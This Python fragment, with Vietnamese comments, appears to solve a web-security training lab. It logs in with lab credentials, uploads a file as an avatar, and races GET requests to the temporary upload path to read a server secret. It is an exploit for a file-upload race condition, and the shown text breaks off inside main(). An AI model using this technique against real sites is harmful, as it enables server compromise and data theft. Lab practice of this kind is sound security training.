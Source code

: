 ```python

# Kiểm tra url đã hết hạn chưa
status_code = requests.get(url=URL_LOGIN).status_code
if status_code != 200:
    print(f'Status code: {status_code}')
    exit(status_code)

async def upload_ava(s: aiohttp.ClientSession, data):
    """
    Xử lí upload avatar
    :param s: session
    :param data: dict bao gồm username và csrf
    """
    try:
        print('start upload')
        data_ = {
            'avatar': open(FILE_NAME, 'rb'),
        }
        data_.update(data)
        await s.post(url=URL_PostAva, data=data_)
        print('done upload')
    except Exception as e:
        print(f"Unable to POST due to {e}")

async def exec_ava(s: aiohttp.ClientSession, i, data):
    """
    Xử lí lệnh GET đến file temp avatar lưu trên server
    Nếu truy cập được file đó thì in ra màn hình nội dung file (là secret)
    :param s: session
    :param i: id của request
    :param data: dict bao gồm csrf
    """
    try:
        print(f'-----------exec {i}-----------')
        async with s.get(url=URL_AvaLocation, data=data) as res:
            if res.status == 200:
                secret = await res.text()
                print(secret)
                with open(f'ava.html', 'w') as file:
                    file.write(secret)
        print(f'-----------done exec {i} with code {res.status}-----------')
    except Exception as e:
        print(f"Unable to GET due to {e}")

async def main():
    async with aiohttp.ClientSession() as s:
        # Login
        res = await s.get(url=URL_LOGIN)
        csrf = re.search(r'<input required type="hidden" name="csrf" value="(.*)">', await res.text()).group(1)

        data = {
            'csrf': csrf,
            'username': 'wiener',
            'password': 'peter'
        }

        res = await s.post(url=URL_LOGIN, data=data, allow_redirects=True)

        if 'Your username is: wiener' in await res.text():
            print("Logged in")
        else:
            print("Cannot login")
```